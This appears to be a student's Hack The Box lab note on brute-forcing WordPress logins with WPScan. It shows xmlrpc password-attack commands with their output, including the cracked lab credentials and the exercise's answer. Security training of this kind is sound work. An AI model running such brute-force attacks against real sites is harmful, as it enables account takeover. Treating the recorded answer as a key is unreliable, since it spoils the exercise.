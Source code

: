 ```yaml
---
sticker: emoji//1f43c
---
```

## WordPress User Bruteforce

WPScan can be used to brute force usernames and passwords. The scan report returned three users registered on the website: `admin`, `roger`, and `david`. The tool uses two kinds of login brute force attacks, `xmlrpc` and `wp-login`. The `wp-login` method will attempt to brute force the normal WordPress login page, while the `xmlrpc` method uses the WordPress API to make login attempts through `/xmlrpc.php`. The `xmlrpc` method is preferred as it is faster.

#### WPScan - XMLRPC


```shell-session
smoothment@htb[/htb]$ wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com

[+] URL: http://blog.inlanefreight.com/                                                  
[+] Started: Thu Apr  9 13:37:36 2020                                                                                                                                               
[+] Performing password attack on Xmlrpc against 3 user/s

[SUCCESS] - admin / sunshine1
Trying david / Spring2016 Time: 00:00:01 <============> (474 / 474) 100.00% Time: 00:00:01

[i] Valid Combinations Found:
 | Username: admin, Password: sunshine1
```

# Question
---

![](images/Pasted%20image%2020250220134229.png)

Let's use this WPScan command:

```
wpscan --password-attack xmlrpc -t 20 -U roger -P /usr/share/wordlists/rockyou.txt --url http://IP:PORT
```

We get this:

```
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - roger / lizard                                                                             
Trying roger / castro Time: 00:00:38 <                        > (1900 / 14346292)  0.01%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: roger, Password: lizard

```


Answer is:

```
lizard
```